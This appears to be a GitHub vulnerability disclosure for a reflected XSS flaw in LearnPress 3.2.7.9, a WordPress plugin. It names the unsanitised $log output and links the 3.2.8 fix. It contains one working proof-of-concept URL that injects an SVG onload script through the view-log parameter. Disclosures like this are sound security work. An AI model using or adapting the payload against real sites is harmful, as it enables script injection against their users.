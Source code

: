 # wpp_LearnPress

the Wordpress Plugin learnpress has a reflected XSS.


## Details:
* Plugin: https://wordpress.org/plugins/learnpress/
* Vulnerable Version: 3.2.7.9
* Payload: http://127.0.0.1/wordpress/wp-admin/edit.php?post_type=lp_course&view-log=aaa%22%3Csvg/onload=%22alert(1)%22/%3E
![unnamed](https://user-images.githubusercontent.com/32059182/98671966-028d2780-2390-11eb-90b7-06d986a650a4.png)
And the issue in the file: ./learnpress/learnpress.php: 
![image](https://user-images.githubusercontent.com/32059182/98671944-f99c5600-238f-11eb-97d8-5b80657ec34b.png)
the variable $log output without sanitize.


## Fix:
* Fix Version: 3.2.8
* patch: https://plugins.trac.wordpress.org/changeset?old_path=%2Flearnpress&old=2413726&new_path=%2Flearnpress&new=2413726&sfp_email=&sfph_mail=

Thank you~
